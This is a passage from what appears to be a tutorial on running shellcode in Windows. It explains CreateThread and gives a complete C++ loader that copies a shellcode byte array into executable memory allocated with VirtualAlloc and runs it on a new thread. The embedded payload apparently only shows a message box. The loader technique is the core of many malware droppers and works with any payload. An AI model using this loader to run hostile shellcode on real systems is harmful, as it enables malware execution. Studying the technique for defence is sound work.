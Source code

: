 For now we are not interested in any parameter other than the <strong>lpStartAddress</strong> because it is the address of our shellcode.

```cpp
if (CreateThread(NULL, NULL, (LPTHREAD_START_ROUTINE)pAddress, NULL, NULL, NULL) == NULL) {
    printf("CreateThread failed with error %x", GetLastError());
}
```

<small>GetLastError() is used for pure debugging purposes, it returns the error code if any error happened, we can then grep the error code and search it on MSDN to specifically know what issue are we facing.</small>

The complete code: 

```cpp
#include <iostream>
#include <windows.h>

const unsigned char buf[] = 
    "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
    "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
    "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
    "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
    "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
    "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
    "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
    "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
    "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
    "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
    "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
    "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
    "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
    "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
    "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
    "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
    "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\xfe\x00\x00\x00\x3e"
    "\x4c\x8d\x85\x15\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
    "\x56\x07\xff\xd5\x48\x31\xc9\x41\xba\xf0\xb5\xa2\x56\xff"
    "\xd5\x43\x52\x41\x46\x54\x49\x4e\x47\x20\x44\x49\x47\x49"
    "\x54\x41\x4c\x20\x43\x48\x41\x4f\x53\x00\x4d\x65\x73\x73"
    "\x61\x67\x65\x42\x6f\x78\x00";

int main() {

  DWORD dwSizeofBuf = sizeof(buf);

  PVOID pAddress = VirtualAlloc(NULL, dwSizeofBuf, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
  
  if(pAddress == NULL){
    printf("VirtualAlloc failed with error %x", GetLastError());
  };

  memcpy(pAddress, buf, dwSizeofBuf);

  if (CreateThread(NULL, NULL, (LPTHREAD_START_ROUTINE)pAddress, NULL, NULL, NULL) == NULL) {
    printf("CreateThread failed with error %x", GetLastError());
  }

  return 1;
}
```
